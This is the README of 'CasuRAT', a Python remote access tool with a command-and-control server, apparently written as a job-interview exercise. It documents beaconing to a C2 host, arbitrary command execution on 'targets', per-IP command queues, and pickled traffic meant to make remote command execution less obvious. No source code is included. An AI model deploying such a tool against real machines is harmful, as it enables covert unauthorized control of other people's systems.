 # CasuRAT  
Simple python RAT for job interview and practice.  
  
casuRAT and it's partner server are ran entirely off of standard modules. As long as there is a somewhat updated version of python3, all that needs to be done is upload the server.py to a server you control, upload casuRAT.py to targets, ensure they have execute permissions, and run them with the below arguements.  
  
# Client Usage:  
python3 ./casuRAT.py <rhost> <rport> <beacon_interval_seconds>  
  rhost - The IP address of the C2 server  
  rport - Listening port of the C2 server  
  beacon_interval_seconds - The amount of time between attempts to communicate with the C2 server  
  
Upon starting casuRAT.py it will make an initial attempt to reach out. Following a success or failure to connect, it will then sleep for the given time in seconds before attempting another connection. On a successful attempt, it will recieve a serialized list containing commands and parameters. It will run the commands on target, then return the stdout and stderr along with a simple timestamp/IP/command befoer each output to the server in a serialized object. As this is a proof of concept, below are statements the client prints to the terminal for troubleshooting. Real world application would have these error messages removed.  
  
"Dad isn't home..." - No connection was established, most likely because the server is not active.  
"Dad hung up on me..." - A non-graceful reset occured while the connection was established.  
"Dad isn't speaking with me..." - Typically means the server is up, but not serving the client's specific IP. Triggered by a "refuse" string to prevent hanging.  
"Told dad all about $CMDS!" - Message confirming that commands were ran and sent off to the server.  
  
The client should ideally run indefinitely, and is at a decently stable place now.  
  
# Server Usage  
python3 ./server.py <lhost> <lport>  
 lhost - Designate the listening IP address  
 lport - Designate the listening port  
   
Starting the server will prompt the user with a couple input loops that will take client IP addresses, and desired commands to be ran. The server will continue to run until all commands have been retrieved before exiting. If an address connects to the server that is not authorized to retrieve commands, a string "refused" will be sent and the socket will go back into it's listening state. A current limitation includes only holding two IPs/queues. Another limitation is that the server listens in a blocking state, meaning only one connection can be serviced at a time. Wnsure that the waits on clients are staggered to not collide.  
  
The server will only exit once all command queues have been retrieved. Adding another queue requires restarting the script. ctrl+c while in listening mode should gracefully exit.  
  
  
  
# Requirements - Overall  
~~Develop a remote access tool that provides arbitrary command execution~~  
  -casuRAT.py will run any system commands.  
~~Deliver documentation outlining setup and use of the remote access tool~~   
  -Hello, I am the readme.  
  
# Requirements - Client  
~~Run on Windows, Linux, or MacOS  ~~  
  -Runs on Linux with python3 installed. Potentially can run on other systems with python3, however not tested as of now.  
~~Developed in Python 3~~  
  -Yup.  
~~Use Python Modules in Standard Library only.~~  
  -No pip needed.  
~~A mechanism to retrieve commands from the Server~~  
  -Uses basic socket receive call to retrieve commands. Try not to send too many commands at once since I have not allowed for over-buffer managements on command retrieval.  
~~A mechanism to execute retrieved commands~~  
  -Uses the subprocess module to run commands. There are no limitations to number of arguments (within reason). As with any tool that is not interactive, do not run interactive commands. More, less, vi, etc. are all bad.  
~~A mechanism to deliver the command results back to the server~~  
  -The same socket used for receiving the command will be used to send the stdout/stderr. The server buffer allows multiple chunks based on time hold. While in theory this should allow any amount of command output data sent to the server, every max buffer will add time to the connection. This can cause problems if another client attempts to retrieve commands at this time.  
  
# Requirements - Server  
~~Run on Linux~~  
  -Runs on Linux with python3.  
~~Developed in Python 3~~  
  -100% python 3.  
~~Use only Python Modules in Standard Library~~  
  -No pip needed here.  
~~A mechanism to queue tasks for clients~~  
  -A series of loops to queue commands for specific client IPs. The server will only provide these commands to their associated client IP.  
~~A mechanism to deliver commands to a client.~~  
  -Our precious single socket hauling back and forth.  
~~A mechanism to display results of a command returned by the client~~  
  -One the received packets are stitched back together they are printed to the terminal.  
~~Long term storage of commands and subsequent results~~  
  -Currently the output that is displayed to the terminal is also written to a logfile titled "casulog.txt" that will be created in whatever directory the server is ran from. Below is an example of the output displayed to terminal and written to the log file.  
"""  
127.0.0.1  |  127.0.0.1 | Fri Mar  5 05:39:59 2021 | ls  
casulog.txt  
casuRAT.py  
LICENSE  
README.md  
server.py  
  
127.0.0.1 | Fri Mar  5 05:39:59 2021 | pwd  
/home/kelly/CasuRAT  
"""  
  
# Bonus - Client  
Develop a (second) compiled client (C/C++, Golang, C# etc)  
  -Maybe some day I'll get my hands dirty in C, but not today. Not satisfied.  
Leverage OOP  
  -Planning on restructuring code into classes to get true OOP experience. Not satisfied.  
Obfuscate or encrypt client side code  
~~Obfuscate or encrypt command & control traffic~~  
  -Traffic in both directions is serialized into a pickled object. This encodes the traffic across the wire making it less obvious that someone is running commands on a target machine. Pickle may come with a security implication or two, so JSON dumps instead may be a better choice in the future.  
Capable of traversing a web proxy. Not satisfied.  
  -Found a seemingly simple solution through google, although have to look into it more to see if it works.  
  
# Bonus - Server  
Leverage OOP  
  -Planning on restructuring code into classes to get true OOP experience. Not satisfied.  
~~Configurable Server (Bind port/IP)~~  
  -Server ip/port is fed through terminal input upon running it.  
Database Backend  
  -Would most likely go with a nosql solution, mongoDB maybe? Not satisfied.  
  
  
